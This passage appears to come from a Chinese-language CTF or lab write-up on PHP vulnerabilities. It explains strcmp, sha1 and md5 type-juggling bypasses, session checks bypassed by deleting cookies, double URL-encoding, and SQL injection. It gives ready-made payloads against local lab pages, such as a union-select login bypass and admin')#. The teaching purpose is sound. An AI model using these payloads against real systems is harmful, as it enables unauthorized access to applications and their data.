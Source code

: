 这个函数是用于比较字符串的函数

```
int strcmp ( string $str1 , string $str2 )
// 参数 str1第一个字符串。str2第二个字符串。如果 str1 小于 str2 返回 < 0； 如果 str1 大于 str2 返回 > 0；如果两者相等，返回 0。
```

可知，传入的期望类型是字符串类型的数据，但是如果我们传入非字符串类型的数据的时候，这个函数将会有怎么样的行为呢？实际上，当这个函数接受到了不符合的类型，这个函数将发生错误，但是在`5.3`之前的php中，显示了报错的警告信息后，将`return 0` !!!! 也就是虽然报了错，但却判定其相等了。这对于使用这个函数来做选择语句中的判断的代码来说简直是一个致命的漏洞，当然，php官方在后面的版本中修复了这个漏洞，使得报错的时候函数不返回任何值。`strcmp`只会处理字符串参数，如果给个数组的话呢，就会返回`NULL`,而判断使用的是`==`，`NULL==0`是 `bool(true)`

## 07 sha()函数比较绕过

`http://127.0.0.1/Php_Bug/07.php?name[]=1&password[]=2`

`===`会比较类型，比如`bool`
`sha1()`函数和`md5()`函数存在着漏洞，`sha1()`函数默认的传入参数类型是字符串型，那要是给它传入数组呢会出现错误，使`sha1()`函数返回错误，也就是返回`false`，这样一来`===`运算符就可以发挥作用了，需要构造`username`和`password`既不相等，又同样是数组类型

`?name[]=a&amp;password[]=b`

## 08 SESSION验证绕过

`http://127.0.0.1/Php_Bug/08.php?password=`

删除`cookies`或者删除`cookies`的值

资料：

- [【Writeup】Boston Key Party CTF 2015(部分题目)](http://blog.csdn.net/lymingha0/article/details/44079981)

## 09 密码md5比较绕过

`?user=' union select 'e10adc3949ba59abbe56e057f20f883e' #&pass=123456`

资料：

- [DUTCTF-2015-Writeup](http://bobao.360.cn/ctf/learning/129.html)

## 10 urldecode二次编码绕过

`h`的`URL`编码为：`%68`，二次编码为`%2568`，绕过

`http://127.0.0.1/Php_Bug/10.php?id=%2568ackerDJ`

资料：

- [URL编码表](https://baike.baidu.com/item/URL%E7%BC%96%E7%A0%81/3703727?fr=aladdin)


## 11 sql闭合绕过

构造exp闭合绕过
`admin')#`

